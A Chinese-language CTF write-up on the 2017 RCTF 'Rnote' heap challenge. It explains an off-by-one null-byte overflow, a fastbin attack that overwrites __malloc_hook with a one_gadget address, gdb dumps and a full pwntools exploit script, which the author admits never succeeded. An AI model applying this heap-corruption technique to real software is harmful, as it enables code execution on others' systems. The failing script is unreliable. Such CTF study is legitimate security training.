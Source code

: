 ```yaml
---
title: 2017 RCTF Rnote
date: 2017-05-31 09:08:41
tags:
- malloc_hook fastbins
- double free
- off-by-one
- fastbin attack
categories:
- ctf_practice
---
```


这题做的时候想用fastbin unlink来达到任意地址写，但是无法找到满足条件的size字段，无奈只好放弃~~。

## Challenge
这题漏洞是个off-by-one，但是它没有提供edit功能，所以就不好利用。首先逆向得到个结构体：
<!-- more -->
```c
struct note
{
	long flag;
	long size;
	char title[16];
	char *content;
}
```

漏洞在函数read_title中：
```c
__int64 __fastcall read_title(__int64 a1, unsigned int size)
{
  char buf; // [sp+1Bh] [bp-5h]@2
  int i; // [sp+1Ch] [bp-4h]@1

  for ( i = 0; i <= (signed int)size; ++i )
  {
    if ( read(0, &buf, 1uLL) < 0 )
      exit(1);
    *(_BYTE *)(a1 + i) = buf;
    if ( *(_BYTE *)(i + a1) == 10 )
    {
      *(_BYTE *)(i + a1) = 0;
      return (unsigned int)i;
    }
  }
  return (unsigned int)i;
}
```

## Exploit
赛后，我google了下，找到了一篇[wp](https://drigg3r.gitbooks.io/ctf-writeups-2017/rctf-2017/rnotepwn.html)(仅供参考下思路)参考了一下。

一般来说fastbin总是可以double free的，因为只有freelist上第一个chunk(p)会检测double free，但是当你又free相同size的chunk到freelist上，然后你又可以free p了。但是一般程序都会设置一个标志位来检测chunk有没有被free过，所以又得重新想办法来达到fastbin的double free。我参考的wp使用off-by-one来达到double free，但我的思路就是off-by-one中比较通用的，我用的null byte overflow来将malloc_hook加入fastbin。

这题的巧妙之处是利用free(p)的p指针不需要对齐，从而可以直接在malloc_hook那构造出一个fastbin。这种思路具体可参考这份[wp](http://uaf.io/exploitation/2017/03/19/0ctf-Quals-2017-BabyHeap2017.html)
```shell
gdb-peda$ x/32gx 0x7f60e38e3740 - 0x20
0x7f60e38e3720 <__memalign_hook>: 0x00007f60e35a5bb0  0x0000000000000000
0x7f60e38e3730 <__realloc_hook>:  0x00007f60e35a5b50  0x0000000000000000
0x7f60e38e3740 <__malloc_hook>: 0x0000000000000000  0x0000000000000000
0x7f60e38e3750: 0x0000000000000000  0x0000000000000000
0x7f60e38e3760 <main_arena>:  0x0000000000000000  0x0000000000000000
0x7f60e38e3770 <main_arena+16>: 0x0000000000000000  0x0000000000000000

gdb-peda$ x/32gx 0x7f60e38e3740 - 0x20 - 3
0x7f60e38e371d: 0x60e35a5bb0000000  0x000000000000007f
0x7f60e38e372d: 0x60e35a5b50000000  0x000000000000007f
0x7f60e38e373d: 0x0000000000000000  0x0000000000000000
0x7f60e38e374d: 0x0000000000000000  0x0000000000000000
0x7f60e38e375d: 0x0000000000000000  0x0000000000000000
0x7f60e38e376d <main_arena+13>: 0x0000000000000000  0x0000000000000000
```
这样直接利用off-by-one null byte来把0x7f60e38e372d加入fastbin中，然后add来得到这个伪造的chunk，并且把malloc_hook覆盖为一个[one_gadget](https://github.com/david942j/one_gadget)的地址，当再次add一个note时就能得到shell。不过当我把0x7f60e38e372d加入fastbin后，却总是在add时崩溃，不知道为什么，无奈只能放弃~~~

我把任意地址加入fastbin的方法还挺巧妙的，过了一个星期我自己都忘了，所以还是记录一下。
首先我们分配堆块temp使其跨越末字节0xf0，差不多就是0x12340到0x12430，在0xf8处填上相应的size。然后我们分配一个fastbin，利用off-by-one null byte覆盖最后一个字节为\x00。然后我们free(p)，此时p已经是被覆盖了，因为我们准备好了size，所以0x123f0被link到fastbin中。然后我们再free堆块temp，然后又add，把temp再次取回来，并且在\x00处填上你的target地址。最后再add一个相应大小的fastbin，因为fastbin中只有0x123f0这一个chunk，所以会把0x12400分配给用户，而fd字段的值即成为新的fastbin中的首个chunk。
```shell
gdb-peda$ x/32gx 0x00cfd1f0
0xcfd1f0: 0x0000000000000000  0x0000000000000071
0xcfd200: 0x0000000000000000  0x0000000000000000 <--free(p)
0xcfd210: 0x0000000000000000  0x0000000000000000
0xcfd220: 0x0000000000000110  0x0000000000000080
0xcfd230: 0x6161616161616161  0x6161616161616161
0xcfd240: 0x6161616161616161  0x6161616161616161
0xcfd250: 0x6161616161616161  0x6161616161616161
0xcfd260: 0x0000000000000000  0x0000000000000071
0xcfd270: 0x0000000000000000  0x0000000000000000
0xcfd280: 0x0000000000000000  0x0000000000000000
0xcfd290: 0x0000000000000000  0x0000000000000000
0xcfd2a0: 0x0000000000000000  0x0000000000020d61
0xcfd2b0: 0x0000000000000000  0x0000000000000000
0xcfd2c0: 0x0000000000000000  0x0000000000000000

gdb-peda$ x/32gx 0x0157a1f0
0x157a1f0:  0x0000000000000000  0x0000000000000071
0x157a200:  0x00007ff81cd4a72d  0x0000000000000000 <--add
0x157a210:  0x0000000000000000  0x0000000000000000
0x157a220:  0x0000000000000110  0x0000000000000081
0x157a230:  0x6161616161616161  0x6161616161616161
0x157a240:  0x6161616161616161  0x6161616161616161
0x157a250:  0x6161616161616161  0x6161616161616161
0x157a260:  0x0000000000000000  0x0000000000000071
0x157a270:  0x0000000000000000  0x0000000000000000
0x157a280:  0x0000000000000000  0x0000000000000000
0x157a290:  0x0000000000000000  0x0000000000000000
0x157a2a0:  0x0000000000000000  0x0000000000020d61
0x157a2b0:  0x0000000000000000  0x0000000000000000

gdb-peda$ p main_arena.fastbinsY 
$1 = {0x0, 0x0, 0x0, 0x0, 0x0, 0x7ff81cd4a72d, 0x0, 0x0, 0x0, 0x0}
```

然而当我再次add时就gg了....

## Exploit
```python
#!/usr/bin python
from pwn import *

debug = 1
if debug:
  p = process('./Rnote')
  libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
else:
  p = remote('rnote.2017.teamrois.cn', 7777)
  libc = ELF('libc.so.6')

def add(size, title, content):
  p.recvuntil("Your choice: ")
  p.sendline("1")
  p.recvuntil("Please input the note size: ")
  p.sendline(str(size))
  p.recvuntil("Please input the title: ")
  p.send(title)
  p.recvuntil("Please input the content: ")
  p.send(content)

def delete(index):
  p.recvuntil("Your choice: ")
  p.sendline("2")
  p.recvuntil("Which Note do you want to delete: ")
  p.sendline(str(index))
  
def show(index):
  p.recvuntil("Your choice: ")
  p.sendline("3")
  p.recvuntil("Which Note do you want to show: ")
  p.sendline(str(index))
  p.recvuntil("note content: ")
  p.recv(8)

bss = 0x60213c
#first find a way to leak libc
title = 'a' * 15 + '\x0a'
add(0x100, title, 'a') #id 0
add(0x100, title, '\x00' * 0xd8 + '\x71' + '\x00' * 7) #id 1

delete(0)
add(0x100, title, 'a')
show(0)
#ub: 0x3C1760 re: 0x3C3B20
libc_addr = u64(p.recv(8)) - 0x3C1760 - 0x58
#print hex(libc_addr)
print "libc_addr: " + hex(libc_addr)
malloc_hook = libc_addr + 0x3C1740
print "malloc_hook: " + hex(malloc_hook)
one_gadget = libc_addr + 0x4647c
print "one_gadget: " + hex(one_gadget)
print "target: " + hex(malloc_hook + 0xd - 0x20)

#try fastbin unlink
title = 'a' * 16 + '\x0a'
add(0x70, title, 'a' * 0x30 + '\x00' * 8 + '\x71') #id 2

delete(2)
delete(1) 
title = 'a' * 15 + '\x0a'
add(0x100, title, '\x00' * 0xd8 + '\x71' + '\x00' * 7 + p64(malloc_hook + 0xd - 0x20))
add(0x60, title, 'a')
gdb.attach(p)

add(0x60, '\x0a', 'aaa' + p64(one_gadget))
add(0x60, '\x0a', 'aaaa')

p.interactive()
```
脚本没能成功，下次看能不能悟到是哪里出错了....
不知道哪里出错了，我还特地把[babyheap](https://github.com/w0lfzhang/ctfs/tree/master/2017-0ctf)给做了，确实是可以分配malloc_hook那的fake fastbin chunk的，郁闷~~

Rnote2漏洞在于realloc和strncat的组合导致了堆溢出，但是开了PIE无法进行unlink。但是思路还是有很多的，可以覆盖content指针为malloc_hook的地址，然后写入一个one_gadget的地址。
